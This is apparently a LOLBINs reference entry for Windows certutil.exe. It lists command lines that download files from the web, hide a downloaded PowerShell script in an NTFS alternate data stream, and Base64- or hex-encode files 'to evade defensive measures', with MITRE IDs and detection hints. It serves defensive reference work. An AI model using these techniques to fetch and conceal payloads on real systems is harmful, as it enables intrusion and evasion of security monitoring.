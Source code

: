 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
## Certutil.exe

`Certutil.exe`

**LOLBINs Tags**

* Download
* Alternate data streams
* Encode
* Decode 

Windows binary used for handeling certificates

Paths:

* `C:\Windows\System32\certutil.exe`
* `C:\Windows\SysWOW64\certutil.exe`

Resources:
https://twitter.com/Moriarty_Meng/status/984380793383370752
https://twitter.com/mattifestation/status/620107926288515072
https://twitter.com/egre55/status/1087685529016193025

Acknowledgement:
Matt Graeber - @mattifestation
Moriarty - @Moriarty_Meng
egre55 - @egre55
Lior Adar -

Detection:
Certutil.exe creating new files on disk
Useragent Microsoft-CryptoAPI/10.0
Useragent CertUtil URL Agent

Download
Download and save 7zip to disk in the current folder.

certutil.exe -urlcache -split -f http://7-zip.org/a/7z1604-x64.exe 7zip.exe

Usecase:Download file from Internet
Privileges required:User
OS:Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
Mitre:T1105

Download and save 7zip to disk in the current folder.

certutil.exe -verifyctl -f -split http://7-zip.org/a/7z1604-x64.exe 7zip.exe

Usecase:Download file from Internet
Privileges required:User
OS:Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
Mitre:T1105

Alternate data streams
Download and save a PS1 file to an Alternate Data Stream (ADS).

certutil.exe -urlcache -split -f https://raw.githubusercontent.com/Moriarty2016/git/master/test.ps1 c:\temp:ttt

Usecase:Download file from Internet and save it in an NTFS Alternate Data Stream
Privileges required:User
OS:Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
Mitre:T1096

Encode
Command to encode a file using Base64

certutil -encode inputFileName encodedOutputFileName

Usecase:Encode files to evade defensive measures
Privileges required:User
OS:Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
Mitre:T1027

Decode
Command to decode a Base64 encoded file.

certutil -decode encodedInputFileName decodedOutputFileName

Usecase:Decode files to evade defensive measures
Privileges required:User
OS:Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
Mitre:T1140

Command to decode a hexadecimal-encoded file decodedOutputFileName

certutil --decodehex encoded_hexadecimal_InputFileName

Usecase:Decode files to evade defensive measures
Privileges required:User
OS:Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
Mitre:T1140